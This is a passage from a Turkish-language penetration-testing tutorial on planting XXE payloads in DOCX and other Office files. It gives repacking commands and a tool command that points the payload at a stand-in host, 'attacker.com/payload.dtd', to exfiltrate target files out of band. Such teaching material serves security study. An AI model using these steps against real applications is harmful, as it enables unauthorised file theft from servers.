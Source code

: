 Yukarıdaki örnekte:

- `attacker.com` senin kontrolündeki bir **OOB endpoint** (Canarytoken, Burp Collaborator, vb.).
- `payload.dtd`, hedefteki dosyayı dışarı aktaran secondary payload'dır.

4. XML dosyasını tekrar ZIP'e ekle

```
zip -u ../xxe.docx word/document.xml
```

5. Hedef uygulamaya bu dosyayı yükle

Eğer uygulama, bu `.docx` dosyasını bir şekilde **açıyor veya analiz ediyorsa** (örneğin virüs tarayıcı, belge dönüştürücü, içerik analiz motoru vb.) XML parser çalıştırılacaktır ve **XXE tetiklenecektir.**


Otomatik Araç: [`oxml_xxe`](https://github.com/BuffaloWill/oxml_xxe)

Manuel uğraşmak istemiyorsan, bu tool ile otomatik payload ekleyebilirsin:

```
python oxml_xxe.py xxe.docx http://attacker.com/payload.dtd
```

Bu script:

- `.docx`, `.pptx`, `.xlsx` gibi Office dosyalarını açar,
- XML dosyalarının içine **XXE payload’ı otomatik olarak gömer**,
- Dosyayı tekrar oluşturur.


Hangi Formatlar Destekleniyor?

|Format|Açıklama|
|---|---|
|DOCX|Word dosyası|
|XLSX|Excel dosyası|
|PPTX|PowerPoint dosyası|
|ODT/ODG/ODS|LibreOffice dosyaları|
|SVG|Görsel içerikli XML|
|XML|Düz XML dosyası|
|PDF|Deneysel olarak destekleniyor (karmaşık)|
|JPG/GIF|EXIF içinden deneme amaçlı (çok nadir çalışır)|

Özet : 

```
XXE via DOCX (Office XML)

1. Boş bir .docx oluştur
2. `.zip` olarak yeniden adlandır: `cp x.docx x.zip`
3. `unzip x.zip -d dir/`
4. `word/document.xml` içine XXE payload yerleştir
5. `zip -u x.docx word/document.xml` ile güncelle
6. Hedef uygulamaya yükle
7. OOB (DNS/HTTP/FTP) yanıtlarını dinle

Tool: https://github.com/BuffaloWill/oxml_xxe
```
